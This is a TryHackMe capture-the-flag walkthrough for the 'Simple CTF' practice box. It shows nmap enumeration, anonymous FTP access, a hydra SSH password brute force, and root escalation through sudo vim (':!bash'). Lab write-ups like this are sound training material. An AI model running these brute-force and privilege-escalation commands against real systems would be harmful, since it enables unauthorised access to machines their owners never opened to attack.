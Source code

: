# 🛡️ TryHackMe Walkthrough — Simple CTF

## 🏷️ Tags  
#tryhackme #ctf #linux #ssh #ftp #hydra #privilege-escalation #sudo #vim #sqli

---

## 🧠 Room Overview  
- **Room name:** Simple CTF  
- **Difficulty:** Easy / Beginner  
- **Date:** 2025-07-19  
- **Objective:** Capture user and root flags through enumeration, exploitation, and privilege escalation.

---

## 🌐 Host Setup

- Added to `/etc/hosts`:
```

10.10.73.112 simplectf.thm

````

- Host responded to ping.

---

## 🔍 Enumeration

### 🔎 Nmap Scan

```bash
nmap -sC -sV -p- simplectf.thm
````

**Open Ports:**

| Port | Service | Version       |
| ---- | ------- | ------------- |
| 21   | FTP     | vsFTPd 3.0.3  |
| 80   | HTTP    | Apache 2.4    |
| 2222 | SSH     | OpenSSH 7.2p2 |

---

### 📂 FTP Enumeration

```bash
ftp simplectf.thm
# login: anonymous
```

* Found `/pub/ForMitch.txt`:

  > "Dammit man... you're the worst dev I've seen. You set the same pass for the system user, and the password is so weak... I cracked it in seconds. Gosh... what a mess!"

📝 Suggests weak password for user `mitch`.

---

### 🔓 SSH Brute Force

```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 simplectf.thm ssh
```

→ Valid credentials found (redacted)

---

## 💻 User Access

```bash
ssh mitch@simplectf.thm -p 2222
```

✅ Login successful.

```bash
ls /home
# mitch, sunbath
```

🚫 Cannot access `/home/sunbath` without privilege.

---

## 🚀 Privilege Escalation

### 🔎 Sudo Check

```bash
sudo -l
```

```plaintext
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

### 🧨 Exploit: vim → bash

1. Launch vim with sudo:

   ```bash
   sudo vim
   ```

2. Inside vim:

   ```
   :!bash
   ```

3. Shell as root opened ✅

---

## 🚩 Flags

### 🧑‍💻 User Flag

```bash
cat user.txt
# → <REDACTED>
```

### 👑 Root Flag

```bash
cat /root/root.txt
# → <REDACTED>
```

---

## ⚠️ Vulnerability Info

* `Weak password` for user `mitch`
* `Misconfigured sudo` allowing root via `vim`
* Also referenced:
  `CVE-2019-9053` (SQL injection in CMS Made Simple) — not required in this box

---

## 📚 Summary

* Gained access via **weak FTP hint** + brute-forced SSH.
* Escalated to root via **vim GTFOBin**.
* Reinforces fundamentals: enumeration, bruteforce, and sudo abuse.

---

## 📂 Tags

\#simplectf #tryhackme #linux #ssh #ftp #hydra #sudo #vim #privilege-escalation #cve #sqli


